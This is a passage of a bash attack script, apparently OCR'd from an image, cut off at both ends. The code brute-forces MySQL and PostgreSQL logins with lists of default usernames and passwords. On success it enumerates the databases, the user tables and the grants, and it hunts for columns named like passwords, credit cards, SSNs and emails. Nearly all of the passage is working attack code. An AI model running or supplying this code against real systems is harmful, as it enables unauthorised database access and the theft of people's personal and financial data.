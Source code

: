 ```bash
        local passwords=("" "root" "admin" "password" "mysql" "123456")
        local users=("root" "admin" "mysql" "user")
        
        for user in "${users[@]}"; do
            for pass in "${passwords[@]}"; do
                if mysql -h "$target" -u "$user" -p"$pass" -e "SELECT VERSION();" > "$OUTPUT_DIR/mysql/auth_$target.txt" 2>&1; then
                    echo -e "${GREEN}[SUCCESS]${NC} $target:mysql:$user:$pass"
                    
                    # Detailed enumeration
                    mysql -h "$target" -u "$user" -p"$pass" << EOF > "$OUTPUT_DIR/mysql/enum_$target.txt" 2>&1
SELECT VERSION();
SELECT USER();
SHOW DATABASES;
SELECT schema_name FROM information_schema.schemata WHERE schema_name NOT IN ('information_schema','mysql','performance_schema','sys');
SELECT table_name, table_schema FROM information_schema.tables WHERE table_schema NOT IN ('information_schema','mysql','performance_schema','sys') LIMIT 50;
SELECT column_name, table_name, table_schema FROM information_schema.columns WHERE column_name REGEXP 'pass|pwd|credit|ssn|social|email|user' LIMIT 100;
SHOW GRANTS;
SELECT user, host FROM mysql.user;
EOF
                    return 0
                fi
            done
        done
        echo -e "${RED}[-]${NC} Authentication failed for $target:mysql"
    fi
}

scan_postgresql() {
    local target="$1"
    echo -e "${YELLOW}[INFO]${NC} Scanning PostgreSQL on $target"
    
    nmap -p 5432 -sV "$target" > "$OUTPUT_DIR/postgresql/nmap_$target.txt" 2>&1
    
    if grep -q "5432.*open" "$OUTPUT_DIR/postgresql/nmap_$target.txt"; then
        echo -e "${GREEN}[+]${NC} PostgreSQL service detected on $target:5432"
        
        local passwords=("" "postgres" "admin" "password" "123456")
        local users=("postgres" "admin" "user")
        
        for user in "${users[@]}"; do
            for pass in "${passwords[@]}"; do
                export PGPASSWORD="$pass"
                if psql -h "$target" -U "$user" -c "SELECT version();" > "$OUTPUT_DIR/postgresql/auth_$target.txt" 2>&1; then
                    echo -e "${GREEN}[SUCCESS]${NC} $target:postgresql:$user:$pass"
                    
                    # Detailed enumeration
                    psql -h "$target" -U "$user" << EOF > "$OUTPUT_DIR/postgresql/enum_$target.txt" 2>&1
SELECT version();
SELECT current_user;
SELECT current_database();
SELECT datname FROM pg_database;
SELECT schema_name FROM information_schema.schemata WHERE schema_name NOT LIKE 'pg_%' AND schema_name != 'information_schema';
SELECT table_name, table_schema FROM information_schema.tables WHERE table_schema NOT LIKE 'pg_%' AND table_schema != 'information_schema' LIMIT 50;
```